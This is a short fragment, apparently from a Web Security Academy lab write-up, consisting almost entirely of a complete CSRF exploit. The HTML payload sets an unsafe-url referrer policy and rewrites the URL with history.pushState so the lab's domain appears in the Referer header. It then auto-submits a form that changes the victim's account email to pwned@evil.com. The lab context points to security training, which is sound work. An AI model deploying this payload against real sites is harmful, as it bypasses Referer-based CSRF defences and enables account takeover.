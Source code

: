 Here's the full payload:

```html
<meta name="referrer" content="unsafe-url" />
<form class="login-form" name="change-email-form" action="https://0aed00b303d727d3814c4d72006b00d6.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="pwned@evil.com">
</form>
<script>
history.pushState("", "", "/?0aed00b303d727d3814c4d72006b00d6.web-security-academy.net");
document.forms[0].submit();
</script>
```

